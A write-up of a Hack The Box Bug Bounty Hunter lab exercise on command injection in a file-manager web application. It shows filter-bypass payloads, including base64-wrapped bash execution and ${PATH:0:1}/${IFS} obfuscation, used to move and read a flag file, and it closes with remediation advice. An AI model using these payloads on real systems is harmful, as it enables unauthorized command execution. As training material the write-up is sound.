 This is a detailed write-up for the HTB Bug Bounty Hunter Certification’s skill assessments. This write-up series will treat each skill assessment as an individual penetration test, with a full explanation of a specific vulnerability, including remediation recommendations.
Command Injection Skill Assessment

Scenario:
You have been contracted to perform a penetration test for a company, and during your testing, you discover an interesting file manager web application. Since file managers often execute system commands, you are interested in testing for command injection vulnerabilities.

Use the various techniques discussed in this module to detect a command injection vulnerability and then exploit it, bypassing any filters that are in place.

Target in Scope:
94.237.xx.xxx
Recon and Analysis:

First, you want to interact with the application as a normal user to understand its functionality.

The file manager web application appears to be connected to the OS level, allowing us to view files hosted on the server.


When clicking the tmp folder, the parameter in the URL changes to to=tmp.

![1_J-RQt28WxAwk5Wa5-wT5CQ](https://github.com/user-attachments/assets/380f5e5b-af7d-4f72-b085-d875a704f593)

This also happens when visiting a .txt file, with the parameter appearing as to=&view=filename.txt.

https://github.com/user-attachments/assets/380f5e5b-af7d-4f72-b085-d875a704f593

Each file and folder has several functional action buttons, such as the "copy" button.

https://github.com/user-attachments/assets/7d2d989d-c1dc-40cd-80d5-59db260dfaf7

It seems this function allows users to copy files to other directories.

https://github.com/user-attachments/assets/daeecf1b-bf80-4078-a102-71ee641a2e89

The file can be moved using this URL:

http://94.237.49.166:46423/index.php?to=tmp&from=51459716.txt&finish=1&move=1

Once a file is moved, the action cannot be repeated on the same file.

https://github.com/user-attachments/assets/46c09bbc-c89c-4a1c-b950-2270bbf6c6a8

There is also an advanced search option available next to the regular search bar.

https://github.com/user-attachments/assets/80acbefa-01e8-416c-9453-33fc2085bfd4
https://github.com/user-attachments/assets/0983529a-c562-45ef-bbb9-6791d4f1230d
Attack Vector:

After testing the functional areas, we now want to target specific features and URL parameters to see if we can perform a command injection. One such area is the "move file" feature.

Below is the initial move of a file to a directory using the UI and HTTP request.

https://github.com/user-attachments/assets/94daae8f-ce9a-482b-9b92-6fbec09ea931
https://github.com/user-attachments/assets/2d8cddeb-4bb1-4720-a061-6bac9c63af17

Below is the repeated action for moving the same file.

https://github.com/user-attachments/assets/cb117f97-8f43-4e5c-9bf3-dc0b14d97c06
https://github.com/user-attachments/assets/3c20054b-0170-4ff5-a154-528f5eb36ddf

We want to check if the URL parameter is vulnerable to command injection.
Command Injection Techniques:

To inject additional commands into the existing one, we can use the following operators:

https://github.com/user-attachments/assets/8e5a7ced-3d20-453b-9c21-9175d2e7fe26

I tried injecting commands like whoami and ls into the "to" parameter. The error message displayed: "malicious request denied".

https://github.com/user-attachments/assets/1e147d29-cfdb-400e-9811-e61a98f5b7f0
https://github.com/user-attachments/assets/82451731-5b66-4185-b145-1d53d404ac7b

This indicates that basic commands are filtered. Therefore, we need to identify possible filters such as space, blacklisted characters, commands, or WAF filters.

To bypass this, I used command obfuscation with Base64 encoding.

bash<<<$(base64 -d<<<"base64 encoded OS payload")

https://github.com/user-attachments/assets/22448c0a-411a-44c7-8ff2-b9fac3dff2e9
https://github.com/user-attachments/assets/5b6d0267-d673-4229-b934-97ceb20e6007

We successfully executed whoami and obtained the result: www-data. Next, I tested ls -la to list the files.

https://github.com/user-attachments/assets/560881b1-453e-4746-b474-31e947411f67
https://github.com/user-attachments/assets/77d9db20-2325-4098-b28f-4ccd5ff13029
Exploit:

Now that we’ve identified the attack vector by bypassing the filter, we can perform an exploit.

I attempted to view the root directory.

https://github.com/user-attachments/assets/e4370eb5-7f18-490b-a649-145ab6d6e897
https://github.com/user-attachments/assets/cb53bf44-1a46-4127-b883-8a35560f28a5

There are several files, including config.php and index.php. Let’s explore further.

https://github.com/user-attachments/assets/5a87aea9-8c07-4c70-9c76-66608aca0ff1
https://github.com/user-attachments/assets/5bc27cde-d090-4c03-a593-a8dddc535e2d
https://github.com/user-attachments/assets/b144ef9c-9cfb-4b82-b26f-096e92090e35

I couldn’t find the target file, flag.txt, but I moved it to the tmp directory.

${PATH:0:1} = /

${IFS} = space

mv/flag.txt /var/www/html/files/tmp

mv ${PATH:0:1}flag.txt ${PATH:0:1}var${PATH:0:1}www${PATH:0:1}html${PATH:0:1}files${PATH:0:1}tmp

Base64 encoded:

bXYgJHtQQVRIOjA6MX1mbGFnLnR4dCAke1BBVEg6MDoxfXZhciR7UEFUSDowOjF9d3d3JHtQQVRIOjA6MX1odG1sJHtQQVRIOjA6MX1maWxlcyR7UEFUSDowOjF9dG1w

bash<<<$(base64%09-d<<<bXYgJHtQQVRIOjA6MX1mbGFnLnR4dCAke1BBVEg6MDoxfXZhciR7UEFUSDowOjF9d3d3JHtQQVRIOjA6MX1odG1sJHtQQVRIOjA6MX1maWxlcyR7UEFUSDowOjF9dG1w)

https://github.com/user-attachments/assets/ae2ed837-0694-4b6f-8d3e-c9d75efe5024

While the file was moved, I didn’t have permission to read it. However, I now know the location of the flag.txt file.

To bypass character filters, I used this payload:

%26c\a\t%09${PATH:0:1}flag.txt

&cat (horizontal tab) /flag.txt

https://github.com/user-attachments/assets/75d45b6a-43a2-4fba-b380-b1e4c7b0ae99
Consequences:

A command injection vulnerability is one of the most severe types. It allows an attacker to execute OS-level commands on the server, potentially compromising the entire network. When a web application uses user input to execute a system command, an attacker can inject malicious commands and take control of the system.
Remediation:

To prevent command injection vulnerabilities, consider the following measures:

    Avoid using system commands in web applications.
    Implement strict input validation and sanitization.
    Configure the web server properly to minimize the risk of such attacks.
